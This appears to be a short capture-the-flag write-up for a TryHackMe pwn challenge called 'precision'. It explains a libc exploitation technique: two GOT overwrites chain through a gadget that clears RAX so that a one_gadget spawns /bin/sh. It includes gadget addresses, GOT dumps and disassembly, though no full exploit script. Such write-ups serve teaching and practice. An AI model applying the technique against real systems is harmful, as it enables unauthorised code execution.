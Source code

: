 # pwn / precision

## IDEA

We have LIBC leak and ability to write 2 quadwords to LIBC memory.
libc.so.6 has partial RELRO, so we can overwrite GOT.
We can overwrite some GOT entries with one_gadget, but
we can't satisfy any one_gadget requirements (RAX == NULL for example).
To bypass this, we can chain two GOT overwrites to firstly jump
to some code that will clear RAX register and than call another function from GOT 
that we will overwrite with one_gadget.

So chain is:
	perror() -> 
	__strlen_avx2@got -> 
	xor eax, eax; call __tunable_get_val@got -> 
	__tunable_get_val@got -> 
	one_gagdet

The most difficult part is to find gadget that will clear RAX and then call 
another function from LIBC GOT.

## one_gadget

```
0xebdaf execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

## LIBC GOT

```
0x00007ffff7e19098│+0x0098: 0x00007ffff7d9d960  →  <__strlen_avx2+0000> endbr64 
...
0x00007ffff7e19178│+0x0178: 0x00007ffff7fdadd0  →  <__tunable_get_val+0000> endbr64 
```

## GOT GADGET

```
   97583:	31 c0                	xor    eax,eax
   97585:	48 89 e5             	mov    rbp,rsp
   97588:	48 89 ee             	mov    rsi,rbp
   9758b:	e8 c0 10 f9 ff       	call   28650 <__tunable_get_val@plt>
```
References:

- [https://tryhackme.com/room/HackfinityBattle](https://tryhackme.com/room/HackfinityBattle)
- [https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md#1---targetting-libc-got-entries](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md#1---targetting-libc-got-entries)
- [https://github.com/nobodyisnobody/write-ups/tree/main/RCTF.2022/pwn/bfc#code-execution-inferno](https://github.com/nobodyisnobody/write-ups/tree/main/RCTF.2022/pwn/bfc#code-execution-inferno)

